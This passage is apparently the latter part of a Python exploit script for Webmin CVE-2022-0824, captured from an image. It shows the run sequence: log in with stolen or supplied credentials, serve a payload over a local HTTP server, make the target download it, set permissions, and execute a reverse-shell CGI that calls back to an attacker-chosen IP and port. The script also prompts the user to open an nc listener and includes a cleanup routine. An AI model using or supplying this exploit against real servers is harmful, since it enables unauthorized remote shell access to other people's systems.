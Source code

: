 ```python
        try:
            r = self.s.get(url, verify=False, allow_redirects=True, timeout=3)
        except requests.Timeout as e: # check target whether make response in 3s, then it indicates shell has been spawned!
            print(TGREEN + f"\n[+] Success: shell spawned to {self.callback_ip} via port {self.callback_port} - XD", ENDC)
            print("[+] Shell location: " + url)
        else:
            print(TRED + f"\n[-] Please setup listener first and try again with: nc -lvp {self.callback_port}", ENDC)

    def do_cleanup(self):
        print(TCYAN + '\n[+] Cleaning up ')
        print(f'[+] Killing: http.server on port {self.pyhttp_port}')
        os.system(f'kill -9 $(lsof -t -i:{self.pyhttp_port})')
        exit()

    def run(self):
        self.gen_payload()
        self.login()
        self.pyhttp_server()
        self.download_remote_url()
        self.modify_permission()
        self.exec_revshell()
        self.do_cleanup()


if __name__ == "__main__":

    parser = argparse.ArgumentParser(description='Webmin CVE-2022-0824 Reverse Shell')
    parser.add_argument('-t', '--target', type=str, required=True, help=' Target full URL, https://www.webmin.local:10000')
    parser.add_argument('-c', '--credential', type=str, required=True, help=' Format, user:user123')
    parser.add_argument('-LS', '--py3http_server', type=str, required=True, help=' Http server for serving payload, ex 192.168.8.120:8080')
    parser.add_argument('-L', '--callback_ip', type=str, required=True, help=' Callback IP to receive revshell')
    parser.add_argument('-P', '--callback_port', type=str, required=True, help=' Callback port to receive revshell')
    parser.add_argument("-V",'--version', action='version', version='%(prog)s 1.0')
    args = parser.parse_args()

    target = args.target
    username = args.credential.split(':')[0]
    password = args.credential.split(':')[1]
    py3http_server = args.py3http_server
    pyhttp_port = py3http_server.split(':')[1]
    callback_ip = args.callback_ip
    callback_port = args.callback_port
    upload_path = "/usr/share/webmin"
    fname = "revshell.cgi"

    pwn = Exploit(target, username, password, py3http_server, pyhttp_port, upload_path, callback_ip, callback_port, fname)
    pwn.run()
```
